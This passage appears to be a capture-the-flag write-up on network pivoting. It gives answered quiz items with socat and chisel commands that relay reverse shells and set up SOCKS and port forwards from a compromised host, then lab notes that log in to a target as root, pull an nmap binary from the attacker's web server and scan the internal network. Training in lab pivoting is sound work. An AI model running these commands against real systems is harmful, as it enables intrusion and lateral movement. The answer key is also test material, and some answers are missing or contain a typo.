 ```markdown

16. What tool can be used to convert OpenSSH keys into PuTTY style keys? - puttygen

17. Which socat option allows you to reuse the same listening port for more than one connection? - reuseaddr

18. If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? - ./socat tcp-l:8000 tcp:172.16.0.200:443

19. What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)? - ./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &

20. What command would you use to start a chisel server for a reverse connection on your attacking machine? - ./chisel server -p 4242 --reverse

21. What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process? - ./chisel client 172.16.0..200:4242 R:socks &

22. How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process. - ./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &

23. If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80? - ./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

24. How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16

25. What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?

26. You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
```

## Git Server

```shell
#connect to target as root using id_rsa key saved
ssh root@10.200.81.200 -i id_rsa

#on attacker machine
sudo python3 -m http.server 80

#on target root shell
curl 10.50.82.104/nmap -o /tmp/nmap-sv && chmod +x /tmp/nmap-sv

./nmap-sv -sn 10.200.81.1-255 -oN scan-sv
#scan network
#-sn to just check alive hosts

./nmap-sv -T4 -p 1-15000 -Pn -oX otherhosts-sv.xml 10.200.81.100 10.200.81.150
#scan the two hosts found

#we can use sshuttle for pivoting
#on attacker machine
sudo apt install sshuttle

```